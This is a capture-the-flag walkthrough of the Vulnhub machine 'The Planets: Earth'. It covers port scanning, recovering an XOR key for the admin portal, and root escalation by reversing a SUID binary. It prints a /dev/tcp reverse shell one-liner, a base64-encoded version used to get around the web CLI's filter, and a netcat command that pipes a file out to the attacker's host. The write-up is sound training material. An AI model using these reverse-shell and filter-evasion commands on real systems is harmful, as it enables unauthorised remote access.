

# Vulnhub - The Planets: Earth

Challenge: https://www.vulnhub.com/entry/the-planets-earth,755/

# Setup

First, I download the file `Earth.ova` and then I open it with my VMware. The reason why I choose VMware is because I want to attack from my wsl2, not from a kali virtual machine and VMware does not need to port forwarding with network NAT while Virtualbox does. But you know if Virtualbox need to do port forwarding, we cannot scan all the port on with Virtualbox. That's why I chose VMware instead!

After import into VMware, I changed Network Adapter into NAT:


In VMware, you can see the IP segment of NAT in the `Virtual Network Editor` by clicking `Edit -> Virtual Network Editor...`:


In the popup, click on the NAT card (In my case it is VMnet8), you can see at the `Subnet IP` box is the IP segment when using NAT `192.168.162.0/24`:


We know we can fuzz the IP with this segment to find out the machine IP. Now let's close that popup and fire our machine! When we see the login prompt, we know that it's time to find out the IP. Let's switch to our wsl2 and fuzz the ip with `fping`

```cmd
fping -aqg 192.168.162.0/24
```


There are only 2 ips! In my case, the ip of machine is `192.168.162.182`. So we know exactly the machine's ip address.

# Reconnaissance

Now, the first thing we need to do is scanning for all open ports:

```
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Earth]
└─$ nmap -sCV -T5 -p- 192.168.162.182
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-19 15:08 +07
Nmap scan report for earth.local (192.168.162.182)
Host is up (0.0017s latency).
Not shown: 65445 filtered tcp ports (no-response), 87 filtered tcp ports (host-unreach)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey:
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-title: Earth Secure Messaging
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_http-title: Earth Secure Messaging

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.91 seconds
```

Only 3 ports are opened! Let's open the website on port 80:


How about port 443:


Maybe because the SSL is not secured, anyway just keep accessing:


Hmm, just a static page, nothing interesting! Let's look back the nmap result. On port 443, we can see that it has 2 DNS `earth.local` and `terratest.earth.local`:

```
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
...
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
...
```

Those are 2 hostnames that we can use. Let's add them to the host file. Because I'm using wsl2, we will need to add to both host file of window and host file of wsl2. Host file of windows located at

```
C:\Windows\System32\drivers\etc
```

To edit the host file, move that file to desktop and open with sublime text, then add this line to the last line of host file:

```
192.168.162.182 earth.local terratest.earth.local
```

The windows host file might seems like this:

```
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
192.168.162.182 earth.local terratest.earth.local
```

Then move back the host file from desktop to the folder `etc` and we try to access with that hostname (not ip) to see if it works:


Access with hostname `terratest.earth.local` result in the same site! Now we will need to add hostname to wsl2 too! The host file is in:

```
/etc/hosts
```

We will add that line to the end of the file as we did with the host file of windows. The host file might look like this:

```
# This file was automatically generated by WSL. To stop automatic generation of this file, add the following entry to /etc/wsl.conf:
# [network]
# generateHosts = false
127.0.0.1       localhost
127.0.1.1       JohnathanHuuTri.        JohnathanHuuTri
192.168.162.182 earth.local terratest.earth.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

> Remember to edit with sudo permission

Now let's access the website using hostname again. Seems like this page will encrypt the message with the key but we don't know what the algorithm is. Let's search to see if it has `robots.txt` or not. Hostname `earth.local` doesn't have `robots.txt` file:


While hostname `terratest.earth.local` does:


Nice! We notice the last line:

```
Disallow: /testingnotes.*
```

Seems like that is a file rather than a directory, let's try with different extension and after a few attempts, we know the extension for that file is `.txt`:


Reading the note, we know the algorithim is just a simple XOR! The file `testdata.txt` was used to test encryption too, let's see what it is:


Seems like it's the data use as message! We also notice that `terra` is username for admin portal, so there is might be admin page? Well yes there is but it's in hostname `earth.local`:


You can try to access with admin path or you can use gobuster to bruteforce:

```
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Earth]
└─$ gobuster dir -w ../../Wordlist/SecLists/Discovery/Web-Content/common.txt -u http://earth.local
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://earth.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../Wordlist/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
/cgi-bin/             (Status: 403) [Size: 199]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================
```

Summary:
- Encryption use XOR algorithm
- `terra` is username for admin portal
- `https://terratest.earth.local/testdata.txt` is message used for testing
- `http://earth.local/admin/login` is admin portal

# User flag

If you don't know, the XOR algoritm use XOR for encryption and XOR for decryption. Let's see if you have message is `0x25` and key is `0x57`, you xor message with key to encrypt and the cipher text is `0x72`:

```
0x25 ^ 0x57 = 0x72
```

Now if you have the plain text (message) is `0x25` and the cipher is `0x72`, you can xor them together to get back the key:

```
0x25 ^ 0x72 = 0x57
```

So now let's recover the key when we can see there are 3 encrypted message already:


Let's go to [CyberChef](https://gchq.github.io/CyberChef/) because it's fast and convenient! The cipher is encoded to hex so the first ingredient we need to add is `From Hex` to convert it back to real data. Then we need to xor with the plaintext from file `testdata.txt` so the second ingredient will be `XOR`:


The key of xor will be the plaintext with format `UTF8` (remember to change to correct format!)


Now we just try with all ciphertext one by one and we know the last cipher give us real message:


So we know the key is `earthclimatechangebad4humans`. Because decrypting 2 first cipher doesn't give us any useful information so the key is the only thing we retrieved! But is it just a key? or it can be something else? Let's try the key as password for admin portal:


And it works:


In front of us is CLI command, which help us execute any linux command on server with limited permission:


But it is better to get a reverse shell than just using this CLI. Let's go to https://www.revshells.com/ to generate command for reverse shell. Because I set the network of machine to NAT so it can access to my wsl2 so we will use ip address of our wsl2:

```
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Earth]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.254.191  netmask 255.255.240.0  broadcast 172.19.255.255
        inet6 fe80::215:5dff:fe9f:92ae  prefixlen 64  scopeid 0x20<link>
        ether 00:15:5d:9f:92:ae  txqueuelen 1000  (Ethernet)
        RX packets 2763739  bytes 1524390920 (1.4 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2929549  bytes 437927711 (417.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

My ip is `172.19.254.191`, we will listen on port `8888` so we will fill the IP and Port with those value:


Let's copy the command:

```cmd
sh -i >& /dev/tcp/172.19.254.191/8888 0>&1
```

Then execute it on the CLI:


Oh it is forbidden? As the reference source said, it is because I used an IP address in my command! So we will need to encrypt our command, then send it to server and make the server decrypt that and execute in the same time! We can do that easily with base64. First, let's encrypt our command:



Then we will copy that encrypted text and put it in the following command:

```cmd
echo '<encrypted-command>' | base64 -d | bash
```

In my case, the `<encrypted-command>` is `c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE5LjI1NC4xOTEvODg4OCAwPiYx` so I have the following command:

```cmd
echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE5LjI1NC4xOTEvODg4OCAwPiYx' | base64 -d | bash
```

Before we execute that command, just make sure we have netcat listening on that port:


Then let's execute our command on CLI. After executing, you can see the server keep loading:


But we have a connection on our netcat:


Now let's find user flag:

```cmd
sh-5.1$ find / -type f -name "*flag.txt" 2>/dev/null
find / -type f -name "*flag.txt" 2>/dev/null
/var/earth_web/user_flag.txt
```

Let's get that:

```cmd
sh-5.1$ cat /var/earth_web/user_flag.txt
cat /var/earth_web/user_flag.txt
[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]
```

Bingo! We got user flag.

# Root flag

Usually, to do a privileged escalation, we will need to find a binary with bit SUID set so let's find if we have any:

```cmd
sh-5.1$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
```

With those binary, we can go to [GTFOBins](https://gtfobins.github.io/) and search if any binary can be useful. But in this case, we can see a binary called `reset_root` which can be interesting (because that binary is not from ubuntu itself). Let's download that file using netcat! In one terminal of wsl, create a netcat server on port 8889:

```cmd
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Earth]
└─$ nc -lnvp 8889 > reset_root
listening on [any] 8889 ...

```

With the reverse shell, we will cat the `reset_root` binary and then pipe it to the netcat so the data can be transfer:

```cmd
┌──(user㉿JohnathanHuuTri)-[~/Vulnhub/Earth]
└─$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [172.19.254.191] from (UNKNOWN) [172.19.240.1] 45457
sh: cannot set terminal process group (953): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1$

sh-5.1$ cat /usr/bin/reset_root | nc 172.19.254.191 8889
cat /usr/bin/reset_root | nc 172.19.254.191 8889
sh-5.1$
```

When we have just entered that command, the binary is transfered successfully:


Now, let's use IDA to decompile the file:


Reading the decompiler, we know that it will do some `magic_cipher` and return the `name` variable is the path of some file. The reason why I know is because the `name` variable will be used as argument for function `access`, which is function to check if file is existed or not. That means it will do `magic_cipher` 3 times and will check if 3 files are existed or not. If all 3 files are existed, it will reset the root password into `Earth`, otherwise will exit:


So the best way to get the filename is using gdb. First let's make the binary executable:

```cmd
chmod +x reset_root
```

Then debug it:

```cmd
gdb reset_root
```

We will set 3 breakpoints at 3 access:

```cmd
gef➤  b*0x00000000004012B1
Breakpoint 1 at 0x4012b1
gef➤  b*0x00000000004012F9
Breakpoint 2 at 0x4012f9
gef➤  b*0x0000000000401341
Breakpoint 3 at 0x401341
```

Then we run and it will hit the first breakpoint:


Stop at the first access, we know the first filename is `/dev/shm/kHgTFI5G`. Type `c` to go to the next breakpoint:


So the second filename is `/dev/shm/Zw7bV9U5`. Let's continue:


So the last filename is `/tmp/kcM0Wewe`. With 3 filenames, let's create them first and run the binary again to see if we can change password or not (create file on reverse shell):

```cmd
sh-5.1$ touch /dev/shm/kHgTFI5G
touch /dev/shm/kHgTFI5G
sh-5.1$ touch /dev/shm/Zw7bV9U5
touch /dev/shm/Zw7bV9U5
sh-5.1$ touch /tmp/kcM0Wewe
touch /tmp/kcM0Wewe
sh-5.1$

sh-5.1$ /usr/bin/reset_root
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
sh-5.1$
```

Bingo, we successfully reset root password. Let's get root:


Now get flag:


# Reference

https://nepcodex.com/2021/12/earth-the-planets-vulnhub-writeup/